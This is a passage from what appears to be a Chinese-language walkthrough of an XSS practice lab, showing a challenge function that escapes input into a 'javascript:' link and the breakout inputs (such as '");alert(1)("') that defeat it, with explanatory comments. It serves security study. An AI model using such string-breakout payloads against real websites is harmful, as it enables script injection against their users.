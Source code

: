 ```javascript
            .replace(/\r/g, '\\r')
            .replace(/\t/g, '\\t')
            .replace(/\f/g, '\\f')
            .replace(/\v/g, '\\v')
            // .replace(/\b/g, '\\b')
            .replace(/\0/g, '\\0')
  }
  s = escapeJs(s)
  return `
<script>
  var url = 'javascript:console.log("${s}")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
`
}
```

```javascript
// input code
");alert(1)//

// "\/\/"转义在js中还是注释
```

```javascript
// input code
");alert(1)("

// 转义后还是",进行闭合前后的内容
```

注解：

```javascript
// input code
");alert(1)("

// html
<script>
  var url = 'javascript:console.log("\");alert(1)(\"")'
  var a = document.createElement('a') // 创建一个新的元素
  a.href = url //<a> 标签的 href 属性用于指定超链接目标的 URL
  document.body.appendChild(a) // 在节点的子节点列表末添加新的子节点
  a.click() //触发点击事件
</script>
```

![image-20200515101607256](/img/haozi_XSS%E9%9D%B6%E5%9C%BA%E9%80%9A%E5%85%B3%E8%AE%B0%E5%BD%95/image-20200515101607256.png)
